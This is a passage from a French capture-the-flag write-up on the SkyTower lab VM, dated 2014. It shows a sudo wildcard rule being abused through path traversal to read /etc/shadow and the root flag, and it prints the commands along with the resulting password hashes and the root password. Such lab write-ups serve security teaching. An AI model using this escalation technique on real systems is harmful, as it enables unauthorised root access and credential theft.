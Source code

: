 Le mot de passe de *sara* est valide sur le système mais là encore un *.bashrc* nous éjecte.  

J'édite le *.bashrc* via *su -c vi sara* (puis *:e .bashrc* depuis *Vi*) pour retirer les lignes qui posent problème.  

Mission accomplished
--------------------

*sara* a une autorisation spéciale *sudo* pour consulter le contenu de */accounts* (qui est vide) :  

```plain
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```

Seulement l'astérisque est pour le moins permissif et permet de remonter l'arborescence :  

```plain
sara@SkyTower:/var/www$ sudo /bin/cat /accounts/../etc/shadow
root:$6$rKYhh57q$AVs1wNVSbE5K.IU1Wp9l7Ndg3iPlB7yczctQD6OL9fBZir2ppGDA6v0Vx17xjg.b3zu6mkAVpEN2BuG3wvS2l/:16241:0:99999:7:::
--- snip ---
john:$6$a39powbs$ditVKZ1waa6vJEh3BG1d5jLv/uADKcl.r1kcA.XKyhNfJoiDhSdwmSZel3V5cZ/S6ec3wd8rdNA2dOznTXhl0/:16198:0:99999:7:::
sara:$6$2PvpHNG0$hbaMRd5fZhWMDHyyhGHINSy.qBHnvP4QW1k9RSwv.pQM6SoZey53C7S7aF6263ae6qx5TwVA6sahf5tebUqvY1:16198:0:99999:7:::
william:$6$c3VykdoT$qRUKl1e77skTm0sLHavRSp8mUJfMIPrJBovrXC8o9GY8/P7gpasSbvtqA0rn9.HyxjKhSVji8/CzHNFLit3GU1:16241:0:99999:7:::
```

Qu'il-y a t-il dans /root ?  

```plain
sara@SkyTower:~$ sudo /bin/ls /accounts/../root/ -al
total 36
drwx------  4 root root 4096 Jun 20 09:01 .
drwxr-xr-x 24 root root 4096 Jun 20 07:52 ..
drwx------  2 root root 4096 Jun 20 08:24 .aptitude
-rw-------  1 root root  204 Jun 20 09:01 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rwx------  1 root root   69 Jun 20 08:59 flag.txt
-rw-------  1 root root  268 Jun 20 07:42 .mysql_history
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
drwx------  2 root root 4096 Jun 20 07:48 .ssh

sara@SkyTower:~$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```

Game over !
-----------



*Published June 29 2014 at 17 30*